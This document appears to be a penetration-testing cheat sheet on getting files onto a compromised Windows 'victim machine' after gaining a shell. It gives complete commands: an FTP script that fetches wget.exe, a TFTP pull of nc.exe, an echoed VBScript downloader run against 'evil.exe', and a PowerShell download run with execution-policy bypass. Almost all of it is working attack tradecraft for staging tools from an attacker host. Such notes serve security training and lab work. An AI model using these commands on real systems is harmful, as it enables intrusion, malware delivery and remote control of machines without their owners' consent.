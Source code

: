 # Windows basics

## Transferring files

Why is this so much harder in Windows? I don't know.

## FTP

Even though many Windows versions have FTP clients, we can't use them interactively because it will kill shells. But we can run multiple commands from a file and download them from an FTP server like `pure-ftpd`on the attack machine.

On the victim machine, echo the following commands into a file:

```text
echo open [host] 21> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect:

```text
ftp -v -n -s:ftp.txt
```

## TFTP

TFTP is installed by default on Windows XP and Windows 2003. Kali also has a TFTP server:

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

With this command you can serve files from `/srv/tftp`.

From a Windows machine, use this to transfer files:

```text
tftp -i [host] get nc.exe
```

### VBScript

Here is a good script to make a wget-clone in VB \(may need to be piped through unix2dos before copying it\):

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

To execute:

```text
cscript wget.vbs http://[hoste]/evil.exe evil.exe
```

### Powershell

Powershell can't be started in a non-interactive shell. But this script can start it:

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[host]/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

To execute:

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

